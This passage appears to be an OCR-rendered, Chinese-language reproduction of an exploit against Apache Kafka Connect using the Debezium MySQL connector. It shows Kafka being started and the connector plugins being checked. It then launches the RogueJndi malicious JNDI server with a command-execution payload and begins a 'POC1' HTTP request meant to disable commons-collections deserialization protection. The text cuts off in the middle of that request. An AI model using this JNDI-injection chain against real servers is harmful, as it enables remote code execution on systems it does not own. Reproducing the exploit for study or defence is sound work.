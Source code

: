 ```
root@ubuntu:~/kafka/kafka_2.13-2.8.2# ls /opt/kafka-connector/plugins/debezium-connector-mysql/ | grep commons
commons-collections-3.2.2.jar
```



启动kafka

```
nohup ./bin/zookeeper-server-start.sh ./config/zookeeper.properties > /dev/null &
nohup ./bin/kafka-server-start.sh ./config/server.properties > /dev/null &
./bin/connect-distributed.sh ./config/connect-distributed.properties
```

检查插件是否被成功加载

```HTTP
GET /connector-plugins HTTP/1.1
Host: 192.168.163.128:8083


HTTP/1.1 200 OK
Date: Thu, 02 Mar 2023 02:22:04 GMT
Content-Type: application/json
Content-Length: 403
Server: Jetty(9.4.44.v20210927)

[{"class":"io.debezium.connector.mysql.MySqlConnector","type":"source","version":"1.6.4.Final"},{"class":"org.apache.kafka.connect.mirror.MirrorCheckpointConnector","type":"source","version":"3.2.0"},{"class":"org.apache.kafka.connect.mirror.MirrorHeartbeatConnector","type":"source","version":"3.2.0"},{"class":"org.apache.kafka.connect.mirror.MirrorSourceConnector","type":"source","version":"3.2.0"}]
```

使用作者提供的JNDI服务器

```
java -jar RogueJndi-1.1.jar --hostname 127.0.0.1 -c "touch /tmp/testtestset"
```

发送POC1,关闭CC3.2中的反序列化防护开关：

```http
POST /connectors HTTP/1.1
Host: 192.168.163.128:8083
Content-Type: application/json
Content-Length: 1245

{
  "name": "conn-1",
  "config": {

    "connector.class": "io.debezium.connector.mysql.MySqlConnector",
    "database.hostname": "localhost",
    "database.port": "3306",
    "database.user": "bill",
    "database.password": "passpass",
    "database.server.id": "8023",
    "database.server.name": "localhost",
    "database.include.list": "test1",

 "database.history.consumer.sasl.mechanism":"PLAIN",
        "database.history.consumer.sasl.jaas.config":"org.apache.kafka.common.security.plain.PlainLoginModule required username=\"admin\" password=\"admin\";",
        "database.history.consumer.security.protocol":"SASL_PLAINTEXT",
        "database.history.producer.sasl.mechanism":"PLAIN",
        
```